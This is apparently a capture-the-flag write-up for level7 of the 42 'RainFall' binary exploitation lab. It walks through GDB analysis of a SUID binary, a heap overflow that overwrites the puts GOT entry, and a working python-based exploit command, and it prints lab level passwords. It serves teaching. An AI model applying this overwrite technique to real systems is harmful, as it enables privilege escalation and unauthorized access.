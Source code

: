 Login as `level7`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.0.19 -p 4242 -l level7
level7@192.168.0.19's password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
```
A `SUID` executable is located in the home directory.
```shell
level7@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```
```gdb
(gdb) info functions
[...]
0x080484f4  m
0x08048521  main
[...]
```
Examine binary with GDB shows that inside `main()` function it opens `/home/user/level8/.pass` file, then reads 68 bytes from the given stream and stores them in the string `c` defined as global variable.
On the other hand the content of `c` variable is printed inside `m()` function.

Function `m()` can be called inside GDB simply by changing `EIP` register pointing to start of `m()` function.
```gdb
(gdb) break *main+202
Breakpoint 1 at 0x80485eb
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485eb in main ()
(gdb) print $eip
$1 = (void (*)()) 0x80485eb <main+202>
(gdb) set $eip=0x080484f4
(gdb) continue
Continuing.
 - 1630930163

Program received signal `SIGSEGV`, Segmentation fault.
0x08049960 in c ()
```




0x0804a008 -> $esp+0x1c == str1
```gdb
(gdb) x/16x 0x0804a008

			            fnPtr
            str1[0]     str1[1]     str1[2]     str1[3]
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
            str1[4]     str1[5]     str1[6]     str1[7]
0x804a018:	0x41414141	0x41414141	0x41414141	0x00000000
			            fnPtr
            str2[0]     str2[1]     str2[2]     str2[3]
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
            str2[4]     str2[5]     str2[6]     str2[7]
0x804a038:	0x42424242	0x42424242	0x00000000	0x00020fc
```

Try to overwrite GOT entry of `fgets()` function
```gdb
(gdb) info functions
[...]
0x080484f4  m
[...]
(gdb) disassemble main
[...]
(gdb) break *0x080485eb
Breakpoint 1 at 0x80485eb
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485eb in main ()
(gdb) x/i $eip
=> 0x80485eb <main+202>:	call   0x80483c0 <fgets@plt>
(gdb) disassemble 0x80483c0
Dump of assembler code for function fgets@plt:
   0x080483c0 <+0>:	jmp    *0x8049918
   0x080483c6 <+6>:	push   $0x8
   0x080483cb <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x/wx 0x8049918					# Check referencing address
0x8049918 <fgets@got.plt>:	0x080483c6 
(gdb) set *0x8049918=0x080484f4				# Change value of address pointing from `fgets()` to `m()`
(gdb) x/wx 0x8049918					# Address of GOT entry successfully changed
0x8049918 <fgets@got.plt>:	0x080484f4
(gdb) continue					        # Execution of `m()`
Continuing.
 - 1633277327
~~
[Inferior 1 (process 2678) exited normally]
```


Break on each functions call and execute first `malloc()` instruction to get heap addresses.
```gdb
(gdb) break *main+16
Breakpoint 1 at 0x8048531
(gdb) break *main+42
Breakpoint 2 at 0x804854b
(gdb) break *main+63
Breakpoint 3 at 0x8048560
(gdb) break *main+89
Breakpoint 4 at 0x804857a
(gdb) break *main+127
Breakpoint 5 at 0x80485a0
(gdb) break *main+156
Breakpoint 6 at 0x80485bd
(gdb) break *main+178
Breakpoint 7 at 0x80485d3
(gdb) break *main+202
Breakpoint 8 at 0x80485eb
(gdb) break *main+214
Breakpoint 9 at 0x80485f7
(gdb) disassemble 0x8048400
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x08048531 in main ()
(gdb) next
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x0804854b in main ()
(gdb) info proc mapping
process 2694
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level7/level7
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level7/level7
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fdb000 0xb7fdd000     0x2000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

To examine the heap, define a hook-stop, to execute commands every time execution stops in program: before breakpoint commands are run, displays are printed, or the stack frame is printed. 
```gdb
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/32wx 0x804a000
>end
(gdb) continue
[...]
(gdb) continue
Continuing.

Program received signal `SIGSEGV`, Segmentation fault.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
#                                   str1[0]=1    str1[1]=malloc(8)
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
#                                   str2[0]=2    str2[1]=malloc(8)
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
0x804a040:	0x00000000	0x00020fc1	0xfbad240c	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0xb7fd1980
0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
(gdb) backtrace
#0  0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
#1  0x080485f0 in main ()
(gdb) continue
Continuing.

Program terminated with signal `SIGSEGV`, Segmentation fault.
The program no longer exists.
0x804a000:	Error while running hook_stop:
Cannot access memory at address 0x804a000
```

If `av[0]` is enough large, it can overwrite address containing in `str2[1]` so that while copying content of `av[2]` it overwrite GOT content.
```gdb
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406k
(gdb) quit
```

Exploit and log on to the next level.
```shell
level7@RainFall:~$ ./level7 $(python -c "import struct; print 'AAAA'*5 + struct.pack('I', 0x8049928)") $(python -c "import struct; print struct.pack('I', 0x80484f4)")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1634572244
 ```
